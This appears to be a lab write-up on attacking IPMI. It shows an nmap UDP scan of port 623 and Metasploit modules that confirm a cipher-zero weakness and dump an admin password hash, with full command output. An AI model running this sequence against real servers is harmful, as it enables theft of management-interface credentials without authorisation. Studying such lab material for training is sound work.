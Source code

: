 
# IPMI

## Nmap
```zsh
❯ sudo nmap -sCVU -T 4 --min-rate 3000 -p 623 10.129.202.5 -v
PORT    STATE SERVICE  VERSION
623/udp open  asf-rmcp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port623-UDP:V=7.95%I=7%D=3/29%Time=67E7918F%P=x86_64-pc-linux-gnu%r(ipm
SF:i-rmcp,1E,"\x06\0\xff\x07\0\0\0\0\0\0\0\0\0\x10\x81\x1cc\x20\x008\0\x01
SF:\x97\x04\x03\0\0\0\0\t");
```

## check version

```zsh
❯ sudo msfconsole -q
msf6 > use auxiliary/scanner/ipmi/ipmi_version
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.202.5
rhosts => 10.129.202.5
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
[*] Sending IPMI requests to 10.129.202.5->10.129.202.5 (1 hosts)
[+] 10.129.202.5:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```zsh
msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > set RHOSTS 10.129.202.5
RHOSTS => 10.129.202.5
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > run
[*] Sending IPMI requests to 10.129.202.5->10.129.202.5 (1 hosts)
[+] 10.129.202.5:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```


### 1. ADMIN
```zsh
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.202.5
rhosts => 10.129.202.5
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 10.129.202.5:623 - IPMI - Hash found: admin:97d1c2c98201000031bc6db8cfc67b797209b4dd0cbc28ced269b4f4d03b7b426896fa87a5cf9096a123456789abcdefa123456789abcdef140561646d696e:daa885de4466cd8e67f3df90b816f9a82b5807fc
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
